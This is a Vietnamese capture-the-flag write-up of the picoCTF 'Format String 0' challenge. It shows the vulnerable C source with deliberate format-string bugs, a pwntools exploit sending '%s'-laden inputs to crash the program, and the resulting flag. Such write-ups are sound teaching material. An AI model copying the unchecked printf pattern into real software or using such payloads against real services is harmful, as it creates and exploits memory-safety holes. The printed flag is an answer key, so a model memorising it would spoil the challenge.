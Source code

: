 # Format String 0
Với tên đề bài thì ta có thể đoán được đây sẽ là một bài khai thác lỗ hổng [format-string](https://owasp.org/www-community/attacks/Format_string_attack).

Đầu tiên ta mở challenge ra, thấy có file nhị phân `format-string-0` và file .c `format-string-0.c`
Chạy thử file nhị phân thì ta thấy:

![alt text](image-1.png)

Có vẻ như đây là một chương trình yêu cầu khách hàng lựa chọn menu ở quán burger mới mở tại `Pico 'n Patty`.

Sau đó ta xem file .c
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

Quan sát thì ta thấy có hàm `sigsegv_handler` sẽ in `flag`

``` c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

Nhìn xuống hàm main(), ta thấy dòng 

``` c
signal(SIGSEGV, sigsegv_handler);
```

Dòng này cho ta biết rằng khi chương trình nhận tín hiệu SIGSEGV, thay vì dừng ngay lập tức, chương trình sẽ gọi hàm `sigsegv_handler`.

$->$ Được rồi, giờ mục tiêu của chúng ta sẽ là làm cho chương trình nhận tín hiệu SIGSEGV. 

Quay lại với hoạt động của chương trình. Đầu tiên hàm `serve_patrick()` sẽ được gọi. Và ta để ý dòng code:

``` c
int count = printf(choice1);
if (count > 2 * BUFSIZE) {
    serve_bob();
}
```

Ta thấy rằng ở đây có một lỗi `format-string` và nếu độ dài được in ra lớn hơn 64 ( $64 = 2 \times 32 $) thì hàm `serve_bob()` sẽ được gọi.

Xuống hàm `serve_bob()` thì ta thấy:
``` c
char choice2[BUFSIZE];
scanf("%s", choice2);
char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
```

Tiếp tục, đây cũng có một lỗi `format-string` và chương trình sẽ in mảng char `choice2` ra luôn. Nhìn thực đơn được cho thì ta thấy `Cla%sic_Che%s%steak` sẽ làm cho chương trình nhận tín hiện SIGSEGV (Lấy flag) bởi vì:
- Trong chuỗi có 3 đoạn format specifier `%s`, 3 đoạn này sẽ lấy 3 địa chỉ con trỏ kiểu `char*` từ stack rồi in ra chuỗi ký tự bắt đầu từ địa chỉ đó, đến khi gặp ký tự kết thúc chuỗi `\0`. 
- Nếu không có tham số truyền kèm, `printf` sẽ lấy giá trị ngẫu nhiên trên stack làm địa chỉ. Và địa chỉ ngẫu nhiên này thường **không hợp lệ**.
- Khi `printf` cố gắng đọc tại địa chỉ này, chương trình sẽ nhận tín hiệu SIGSEGV và hàm `sigsegv_handler` sẽ được gọi rồi in ra flag.

Từ những phân tích trên, ta có file exploit như sau:
``` python 
from pwn import*
p = process("format-string-0")
#p = remote('mimas.picoctf.net', 53531)
payload1 = "Gr%114d_Cheese"
payload2 = "Cla%sic_Che%s%steak"
p.sendline (payload1)
p.sendline (payload2)
p.interactive()
```

Và ta có được flag.

![alt text](image-4.png)

Flag: picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}